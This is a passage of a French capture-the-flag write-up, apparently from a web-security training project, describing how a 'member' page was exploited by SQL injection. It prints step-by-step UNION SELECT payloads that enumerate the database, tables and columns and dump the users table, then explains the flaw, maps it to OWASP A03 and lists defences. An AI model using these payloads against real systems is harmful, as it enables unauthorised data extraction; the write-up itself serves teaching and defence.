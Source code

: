 ### Comment s'en protéger
Il est important de ne pas stocker d'informations sensibles dans des fichiers accessibles via robots.txt et de sécuriser l'accès à ces fichiers par d'autres moyens, comme l'authentification ou le chiffrement.


## 5) Flag "injection_sql_member"
### Etapes pour trouver le flag
1. La page member semble permettre de faire des requetes sql
2. Injection : 
```sql 
5 UNION SELECT null, database() -- Identifier le nom de la base de données en cours.
```
3. Injection : 
```sql 
5 UNION SELECT null, table_name FROM information_schema.tables WHERE table_schema=database() -> users -- Lister les tables disponibles dans la base de données active.
```
4. Injection : 
```sql 
5 UNION SELECT null, column_name FROM information_schema.columns WHERE table_schema=database() -- Identifier les colonnes disponibles dans la base de données active
```
5. Injection : 
```sql 
5 UNION SELECT null, concat(user_id, CHAR(10), first_name, CHAR(10), last_name, CHAR(10), town, CHAR(10), country, CHAR(10), planet, CHAR(10), Commentaire, CHAR(10), countersign) FROM users -- Extraire les données de la table users et les afficher.
```
6. Affichage de : 
5ff9d0165b4f92b14994e5c685cdce28 et Decrypt this password -> then lower the char. Sh256 on it and it's good !

### Description
Une faille de type SQL se produit lorsqu'une application ne valide pas correctement les entrées utilisateur, permettant ainsi à des données non fiables d'être exécutées comme des commandes SQL. Cela peut permettre à un attaquant de contourner l'authentification, d'extraire des données sensibles, de modifier ou de supprimer des données, voire de compromettre entièrement le serveur de base de données.

### OWASP associés
1. OWASP A03:2021 - Injection

### Comment s'en protéger
1. Utiliser des requêtes préparées avec des paramètres liés 
2. Valider et assainir les entrées utilisateur
3. Limiter les permissions des comptes de base de données
4. Utiliser des ORM (Object-Relational Mapping)
5. Masquer les messages d'erreur SQL
6. Surveiller et détecter les injections SQL 
